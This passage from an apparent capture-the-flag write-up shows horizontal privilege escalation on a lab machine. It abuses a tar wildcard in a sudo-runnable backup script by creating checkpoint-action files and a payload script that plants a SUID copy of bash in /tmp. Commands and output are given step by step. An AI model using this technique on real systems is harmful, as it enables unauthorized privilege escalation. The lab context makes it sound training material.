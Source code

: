 So user jake can run /opt/backups/backup.sh as user michael without password.

```bash
jake@the-marketplace:~$ cat /opt/backups/backup.sh 
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```

## Horizontal Privilege escalation

The tar wildcard is exploitable as we can execute any command using tar

```bash
$ tar cf /opt/backupd/backup.tar --checkpoint=1 --checkpoint-action=exec=sh ro.sh
```

This can be used to gain access

Lets create files `--checkpoint=1` `--checkpoint-action=exec sh [ro.sh](http://ro.sh)` `ro.sh`

[ro.sh](http://ro.sh) has the payload

```bash
jake@the-marketplace:~$ echo "fasdfa" > '--checkpoint=1'
jake@the-marketplace:~$ echo "dfadf"> '--checkpoint-action=exec=sh ro.sh'
```

contents of ro.sh

```bash
#!/bin/bash
cp /bin/bash /tmp/bash
chmod +s /tmp/bash
```

Adds a suid bit to the bash binary so that we can gain access to the user michael

Lets run the exploit

```bash
jake@the-marketplace:~$ sudo -u michael /opt/backups/backup.sh 
Backing up files...
tar: user.txt: Cannot open: Permission denied
tar: Exiting with failure status due to previous errors
```

sudo -u michael to run the script as michael

user.txt permission denied so lets change the permission to 777

```bash
jake@the-marketplace:~$ chmod 777 user.txt 
jake@the-marketplace:~$ sudo -u michael /opt/backups/backup.sh 
Backing up files...
jake@the-marketplace:~$
```

Lets look at /tmp
